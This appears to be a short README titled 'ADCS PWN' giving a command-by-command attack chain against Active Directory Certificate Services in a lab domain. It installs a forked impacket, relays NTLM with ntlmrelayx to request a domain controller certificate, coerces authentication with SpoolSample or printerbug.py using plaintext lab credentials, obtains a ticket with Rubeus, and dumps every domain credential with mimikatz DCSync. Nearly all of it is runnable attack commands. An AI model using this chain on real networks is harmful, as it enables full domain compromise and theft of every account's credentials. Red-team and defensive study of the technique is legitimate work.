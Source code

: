 ADCS PWN  
=================  

Info & Links  
https://posts.specterops.io/certified-pre-owned-d95910965cd2  
https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf  
https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/  
https://github.com/leechristensen/SpoolSample  
https://github.com/GhostPack/Rubeus  
https://github.com/gentilkiwi/mimikatz/releases   
 
How to  

Prep  
```
pip3 uninstall impacket
git clone --branch ADCS-PWN https://github.com/LuemmelSec/impacket 
cd impacket
python3 -m pip install .
```

Exploit  

On Kali  
```
python3 ntlmrelayx.py -t http://10.55.0.2/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

Trigger PrinterBug  
```
.\SpoolSample.exe 10.55.0.1 10.55.0.30
or
python3 printerbug.py mcafeelab.local/user123:SuperSecretPW@10.55.0.1 10.55.0.30
```

On Attacker Windows or whereever we can run Rubeus  
```
Rubeus.exe asktgt /user:dc2016$ /ptt /dc:10.55.0.1 /domain:mcafeelab.local /certificate:BASE64 Blob from ntlmrelayx
mimikatz.exe
lsadump::dcsync /domain:mcafeelab.local /all /csv
```
